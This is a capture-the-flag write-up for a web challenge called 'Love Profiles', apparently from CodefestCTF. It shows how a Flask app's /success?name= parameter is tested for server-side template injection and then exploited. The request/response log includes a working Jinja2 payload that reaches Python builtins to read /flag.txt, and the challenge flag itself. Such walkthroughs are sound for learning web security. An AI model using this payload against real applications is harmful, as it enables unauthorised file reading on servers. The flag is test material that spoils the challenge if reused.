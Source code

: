 # Love Profiles

Total Solves - 54

Final Points - 100

## Description
Made my own dating app as I had no matches on existing ones. Only genuine profiles allowed!

PS: Its under development so you have to wait before you can match and talk!

## Writeup
The web app doesn't have much functionality. On exploring you will realise that you can simply add profiles using `/profile` endpoint.

On successfully adding a profile, it takes you to the endpoint `/success?name=` and displays this

```
REQUEST:
/success?name=kn1gh7

RESPONSE:
Congratulations kn1gh7! Your profile has been successfully added!
View profiles here
```

As its a flask application, there is a possibility of SSTI here or on the home page. Sending a request with name as `{{7*7}}`.

```
REQUEST:
/success?name={{7*7}}

RESONSE:
Congratulations 49! Your profile has been successfully added!
View profiles here
```

There is SSTI!

Now you can use a payload like `request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read()`

```
REQUEST: 
/success?name={{request.__class__._load_form_data.__globals__.__builtins__.open("/flag.txt").read()}}

RESPONSE:
Congratulations CodefestCTF{1_w4n7_l0v3_bKzlvb2xi} ! Your profile has been successfully added!
View profiles here
```

## Flag
`CodefestCTF{1_w4n7_l0v3_[a-zA-Z0-9]{9}}`
